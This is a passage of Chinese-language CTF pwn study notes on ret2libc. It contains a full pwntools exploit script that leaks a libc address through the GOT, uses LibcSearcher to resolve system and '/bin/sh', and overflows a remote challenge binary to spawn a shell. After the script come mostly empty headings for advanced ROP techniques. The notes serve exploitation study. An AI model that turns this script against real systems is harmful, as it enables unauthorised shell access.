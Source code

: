 got 表泄露libc的函数地址

利用思路：

- 泄露 __libc_start_main 地址
- 获取 libc 版本
- 获取 system 地址与 /bin/sh 的地址
- 再次执行源程序
- 触发栈溢出执行 system(‘/bin/sh’)

exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher

context(log_level = 'debug',arch ='i386',os = 'linux' )
# io = process('./ret2libc3')
io = remote("47.106.212.155",10008)
elf = ELF('./ret2libc3')
puts_plt = elf.plt['puts']
start_main_got = elf.got['__libc_start_main']
main = elf.symbols['main']

payload = flat(["A"*112,puts_plt,main,start_main_got])
io.sendlineafter("Can you find it !?",payload)

libc_start_main_addr = u32(io.recv()[0:4])
libc = LibcSearcher('__libc_start_main',libc_start_main_addr)
libcbase = libc_start_main_addr-libc.dump("__libc_start_main")
sym_addr = libcbase+libc.dump('system')
binsh_addr = libcbase+libc.dump('str_bin_sh')

payload = flat(["A"*112,sym_addr,"bbbb",binsh_addr])
io.sendline(payload)
io.interactive()
```

##### 中级ROP

###### ret2csu

 利用 x64 下的 __libc_csu_init 中的 gadgets.



###### ret2reg

###### BROP

##### 高级ROP

###### ret2_dl_runtime_resolve

###### SROP

###### ret2VDSO



##### 花式栈溢出

##### Canary 绕过技术







